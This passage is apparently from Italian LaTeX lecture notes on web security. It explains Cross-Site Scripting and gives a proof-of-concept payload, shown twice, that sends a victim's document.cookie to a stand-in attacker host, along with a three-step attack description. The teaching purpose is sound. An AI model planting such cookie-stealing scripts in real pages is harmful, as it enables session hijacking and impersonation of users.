     \subsection{\textit{Cross-Site Scripting} (\texttt{XSS})}
        Il \textit{Cross-Site Scripting} (\texttt{XSS}) è un attacco che permette ad un attaccante di eseguire codice \texttt{JavaScript} all'interno di una applicazione web. Questo attacco è possibile quando un'applicazione web permette di inserire codice \texttt{JS} all'interno di un campo di input e questo codice viene poi eseguito da un altro utente.
        \paragraph{PoC - Proof of Concept} Supponiamo di avere un'applicazione web che permette di inserire un commento all'interno di un post, se un utente inserisce come commento il seguente codice:
        \begin{lstlisting}
<script>window.open('http://attacker.com?cookie=' + document.cookie)</script>\end{lstlisting}
        Allora l'url che si genera è il seguente:
        \begin{lstlisting}
http://applicazione.com/post?comment=<script>window.open('http://attacker.com?cookie=' + document.cookie)</script>\end{lstlisting}
        Se il sito \texttt{applicazione.com} è vulnerabile all'attacco di \texttt{XSS} allora il codice \texttt{JS} viene eseguito e l'attaccante riceve i \textit{cookie} della vittima. Nei \textit{cookie} potrebbero essere presenti informazioni sensibili come ad esempio \texttt{JWT} o \textit{session token}.\footnote{Ne abbiamo discusso nel capitolo \ref{ch:accessControlII} - }
        \paragraph{Funzionamento in 3 step} \begin{itemize}
            \item L'attaccante invia un messaggio alla vittima contenente un url vulnerabile al quale sono stati aggiunti dei parametri che eseguono codice \texttt{JS}.
            \item La vittima clicca sul link e se il sito è vulnerabile il codice \texttt{JS} viene eseguito, questo codice potrebbe inviare i \textit{cookie} della vittima ad un server controllato dall'attaccante.
            \item L'attaccante riceve i \textit{cookie} della vittima e può impersonarla.
        \end{itemize}
